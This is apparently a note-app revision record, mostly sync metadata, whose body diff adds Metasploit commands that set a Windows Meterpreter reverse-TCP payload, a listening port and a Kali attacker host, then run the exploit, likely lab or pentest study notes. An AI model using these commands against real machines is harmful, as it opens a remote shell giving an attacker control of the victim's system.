 id: 0ee95f3d41704aae9652e57ba9a7373b
parent_id: cb857db90ea24a2a819a2eae1f56117b
item_type: 1
item_id: f1cbbe07c0c44adb91ce6010b852b46f
item_updated_time: 1642645742545
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\" options\"],[1,\"\\\n\\\n> set payload windows/meterpreter/reverse_tcp\\\n> \\\n> set LPORT 7777\\\n> \\\n> set LHOST &lt;Kali IP&gt;\\\n> \\\n> exploit\"]],\"start1\":769,\"start2\":769,\"length1\":8,\"length2\":119}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-20T02:37:11.392Z
created_time: 2022-01-20T02:37:11.392Z
type_: 13